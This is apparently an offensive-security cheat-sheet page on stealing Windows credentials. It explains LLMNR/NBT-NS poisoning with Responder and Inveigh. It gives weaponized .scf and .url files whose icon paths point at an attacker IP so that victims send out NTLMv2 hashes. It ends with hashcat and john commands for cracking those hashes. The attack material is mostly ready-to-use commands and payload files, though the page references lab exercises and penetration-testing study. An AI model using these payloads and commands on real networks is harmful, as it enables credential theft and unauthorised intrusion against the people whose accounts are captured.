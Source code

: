 ```yaml
---
description: Credential Access, Stealing hashes
---
```


# LLMNR Poisoning/Forced Authentication

## LLMNR Poisoning

Link-Local Multicast Name Resolution (LLMNR) is a protocol that is able to perform name resolution in the absence of a DNS server. When a request is made for a share such as `\\Fileshares` and the user accidently instead types `\\Filesharez` getting the share name incorrect DNS would first attempt to resolve the target share and when failing to do so (As it does not exist) It will fallback to LLMNR.

Once DNS has failed to resolve the request and LLMNR kicks in the requesting machine will send out a broadcast on the subnet asking if anyone of the other devices can connect them to the share `\\Filesharez` The attacking machine on the network will respond to the request stating that it can get them connected to the share. At this point the requesting (victim) machine will send the username and NTLMv2 hash of the account requesting the resource over to the malicious machine.

Responder will print it out on screen and write it to a log file per host located in the `/usr/share/responder/logs` directory. Hashes are saved in the format `(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt`, and one hash is printed to the console and stored in its associated log file unless `-v` mode is enabled

<figure><img src="../../../.gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

Analysis Mode

```
sudo responder -I ens224 -A 
```

### via SSRF

{% embed url="https://lojique.gitbook.io/proving-grounds/v/heist/web-enum/website" %}

### Inveigh

LLMNR & NBT-NS poisoning is possible from a Windows host as well. The tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.&#x20;

#### Powershell

```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

#### C# ([InveighZero](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework\_4.7\_x86/Inveigh.exe))

```powershell-session
.\Inveigh.exe
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
```

We can also see the message `Press ESC to enter/exit interactive console`, which is very useful while running the tool. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.

We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.

\


## Forced Authentication

{% embed url="https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication" %}

### Execution via .SCF

Place the below `.scf` file on the attacker controlled machine in a shared folder

{% code title="pwn.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\192.168.123.123\home\kali\pwn.scf
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

### Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.123.123\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

{% code title="attacker@local" %}
```
responder -I eth1 -v
```
{% endcode %}

## Example

{% embed url="https://lojique.gitbook.io/proving-grounds/v/vault/other-services-enumeration/445-smb" %}

## Cracking NTLMv2

```bash
# On Kali
hashcat -m 5600 'pasted hash' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
john --wordlist=/usr/share/wordlists/rockyou.txt ntlmhash.txt
```

```bash
# On windows host
hashcat.exe -m 5600 hash.txt rockyou.txt -O
```

## Resources

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/llmnr" %}

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks" %}

{% embed url="https://attack.mitre.org/techniques/T1557/001/" %}
